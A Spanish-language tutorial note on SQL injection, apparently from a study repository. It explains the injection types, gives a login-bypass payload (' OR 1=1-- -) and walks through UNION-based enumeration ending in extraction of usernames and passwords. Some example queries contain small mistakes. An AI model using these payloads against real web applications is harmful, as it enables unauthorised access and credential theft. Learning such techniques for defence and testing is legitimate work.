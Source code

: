 ## SQL Injection

### Indice
- [Tipos y funcionamiento general](#como)
- #### IN BAND
  *   [Union](#union)
  *   [Error](#error)
- #### BLIND
  *   [Boolean](#boolean)
  *   [Time](#tine)
- #### OUT OF BAND
  *   [Out of band](#out)

<a name="como"></a>
## Tipos y funcionamiento
Tenemos 3 tipos:
* IN BAND
  Es la que vemos la respuesta de la base de datos en la respuesta del servidor. Es la mas sencilla de todas. tendriamos de tipo UNION y ERROR.

* BLIND
  No veriamos la respuesta de la base de datos en ninguna respuesta del servidor, y tendriamos de tipo BOOLEAN y tipo TIME

* OUT OF BAND

### Ejemplo de funcionamiento inyección SQL
para realizar una inyeccion, debemos romper la query. por ejemplo en un formulario de usuario y contraseña en una web:  

en email ponemos el email, y en contraseña una contraseña  

la query "oficial" seria algo así:  

```
SELECT email,pass WHERE email = "emailintroducido" AND pass ="passintroducida";
```
para romper esa query, lo que hacemos es introducir una ' en el campo email o contraseña, seguida de la inyección y un comentario, quedaria así:  

email: eddy@gmail.com' comando de la inyeccion-- -  

pass: contraseña123  

ejemplo tipico de inyección por ejemplo en un formulario web:  
```
email: eddy@gmail.com' OR 1=1-- -
pass: contraseña123
```
y lo que haría realmente por detrás es:  
```
SELECT email,pass WHERE email = "eddy@gmail.com" OR 1=1 AND pass ="contraseña123";
```
con lo cual la lógica de base de datos, diría que si el email está contenido en la base de datos o 1 es igual a 1, cosa que siempre se cumple. iniciaremos sesión con el primer usuario de la tabla.


## IN BAND

<a name="union"></a>
### Union
Hay que tener en cuenta que cuando realizamos la instruccion UNION entre dos SELECT, ambos select deben tener el mismo numero de columnas. asi que lo primero es determinar el numero de columnas de la query que esta corriendo en el servidor.  
se puede hacer con un order by, ejemplo:  

empezamos con un order by 1, luego con un order by 2, y asi hasta que de error. cuando de error por ejemplo en el order by 4, pues sabemos que hay 3 columnas. 
```
' ORDER BY 1
' ORDER BY 2
' ORDER BY 3
' ...
```
Una vez determinado la cantidad de columnas de la query, vamos a investigar en la base de datos:  

suponiendo que tiene 3 columnas, ejecutamos la siguiente sentencia:  
```
'UNION SELECT schema_name, null,null FROM information_schema.schemata-- -
```
suponemos que encontramos las siguentes bases de datos:
* information_schema
* perfomance_schema
* mysql
* webserver

ahora vamos a indagar en webserver:  
```
'UNION SELECT table_name,null,null FROM information_schema.tables WHERE table_schema="webserver"-- -
```
suponemos que encontramos las siguientes tablas:  

* users
* books
* images
vamos a indagar en users:
```
'UNION SELECT column_name,null,null FROM information_schema.columns WHERE table_name="users" and table_schema="webserver"-- -
```

y vemos que tiene las columnas:
* id
* user
* password
ahora para extraer esos datos es tan sencillo como:
```
'UNION SELECT CONCAT(user,0x3a,password),null,null FROM users WHERE table_schema="webserver"-- - 
```
APUNTES:  

- el concat no es siempre necesario
- 0x3a en hexadecimal significa los dos puntos ":"
- el where no deberia ser necesario en caso de usuarios y claves xq ya la web está preparada para consultar en esa base de datos
